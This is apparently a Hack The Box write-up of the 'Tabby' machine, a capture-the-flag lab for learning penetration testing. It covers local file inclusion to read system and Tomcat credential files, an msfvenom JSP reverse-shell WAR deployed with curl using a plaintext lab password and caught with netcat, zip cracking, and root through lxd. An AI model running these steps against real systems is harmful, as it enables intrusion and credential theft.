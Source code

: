 ```yaml
---
title: Tabby - Easy
categories: htb LFI lxd
excerpt: | 
  Linux machine with a vulnerable page. 

feature_text: |
  ## Tabby - Easy
  
feature_image: "https://picsum.photos/2560/600?image=733"
image: "https://picsum.photos/2560/600?image=733"
---
```


### Scanning process
nmap ip:
``` 
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 45:3c:34:14:35:56:23:95:d6:83:4e:26:de:c6:5b:d9 (RSA)
|   256 89:79:3a:9c:88:b0:5c:ce:4b:79:b1:02:23:4b:44:a6 (ECDSA)
|   256 1e:e7:b9:55:dd:25:8f:72:56:e8:8e:65:d5:19:b0:8d (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-title: Mega Hosting
| http-server-header: Apache/2.4.41 (Ubuntu)
8080/tcp open  http    Apache Tomcat
| http-title: Apache Tomcat
| http-open-proxy: Proxy might be redirecting requests
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Let's examine what type of page is with `whatweb` to see more information about it. 
Now we can analize the main page that it is running in http://10.10.10.194 and we will see that it is necesary to add host megahostin.htb to /etc/hosts.

This page is vulnerable to LFI (Local File Inclusion) 'http://megahosting.htb/news.php?file=statement' where we can access interesting files such as:
1. ../../../../etc/passwd
2. ../../../../../proc/net/tcp 

In the last local file we can find all open ports of the machine which we couldn't see them before. With nmap we saw all ports that the firewall didn't filter.


It is important to analize 8080 ports (http://10.10.10.194:8080) and there are critical information:
```
NOTE: For security reasons, using the manager webapp is restricted to users with role "manager-gui". The host-manager webapp is restricted to users with role "admin-gui". **Users are defined in /etc/tomcat9/tomcat-users.xml**.
```

We can access to tomcat-users.xml but it seems it is not in that directory, so we can install apache2 in a docker to see where is it.

To get a new instance of docker: `docker run --rm -it ubuntu bash`. Install locate tool and apache2 to see where is the file. 

When we catch the credentials, we can access to http://10.10.10.194:8080/host-manager. 

### Exploit vulnerabilities
Now we can upload a .war file to bumped this machine.
1. msfvenom -l payloads \| grep java.
2. Create a .war: `msfvenom -p java/jsp_shell_reverse_tcp LHOST={your ip} LPORT=443 -f war -o reverse.war`
3. List apps: `curl -s -u 'tomcat:$3cureP4s5w0rd123!' -X GET 'http://10.10.10.194:8080/manager/text/list' `
4. Upload app: `curl -s -u 'tomcat:'$3cureP4s5w0rd123!' 'http://10.10.10.194:8080/manager/text/deploy?path=/reverse' --upload-file reverse.war`
5. Listen at: `nc -lnvp 443`
6. Go to: http://10.10.10.194:8080/reverse
 
### Privilege Scalation
We firts have to find where is user.txt. `find / \-name user.txt 2> /dev/null`. It is on ash user so we have to migrate to ash.
In the directory of /var/www/files/ there is a compress zip that we can crack in local mode. We have to get the file in our computer and crack it.
It give us a new password so... Why not try with ash credentials? Yep, it is the same password.


Now we have to see our goups id. Ejecute: `id` and ash is in lxd group.
Using `searchsploit lxd` let us root access.
